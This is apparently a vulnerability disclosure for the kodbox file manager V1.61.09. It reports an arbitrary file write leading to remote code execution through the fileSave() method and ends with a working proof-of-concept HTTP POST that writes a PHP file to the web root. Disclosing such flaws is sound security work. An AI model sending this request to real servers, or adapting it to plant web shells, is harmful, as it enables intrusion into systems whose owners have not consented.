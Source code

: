 # Vendor

kalcaddle

# Product

kodbox

# version

V1.61.09

# Download 

https://github.com/kalcaddle/kodbox

# Vulnerability

Arbitrary File Write​ RCE

# Description

The root of the vulnerability lies within the `fileSave()` method in the `app/controller/explorer/editor.class.php` file,users can save any file on the server.

# Analysis

The root of the vulnerability lies within the `fileSave()` method in the `app/controller/explorer/editor.class.php` file.

<img width="870" height="536" alt="image" src="https://github.com/user-attachments/assets/9656873c-187c-408f-9337-4f18e5d70dc7" />

base64 does not equal 1 and can be written directly to the file, and there is no limit on the content and suffix of the file.

Recurrence of vulnerabilities：

<img width="1020" height="582" alt="image" src="https://github.com/user-attachments/assets/db8f7a36-2978-4006-b3f2-cede69d4a083" />

http://192.168.1.88:8088/1.php

<img width="910" height="1295" alt="image" src="https://github.com/user-attachments/assets/c5b2451c-0d6c-428d-8caf-77697670d144" />


# POC
```
POST /?explorer/editor/fileSave HTTP/1.1
Host: 192.168.1.88:8088
Content-Length: 167
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: zh-CN,zh;q=0.9
Cookie: CSRF_TOKEN=1; KOD_SESSION_ID=1314466bdb917162b6e85d75d7912cdd;
Connection: keep-alive

path=%2Fxp%2Fwww%2Fkodbox-1.61.09%2F1.php&charset=utf-8&content=<?php%20phpinfo();?>&base64=0&page=1&pageNum=512000&CSRF_TOKEN=1&API_ROUTE=explorer%2Feditor%2FfileSave

```
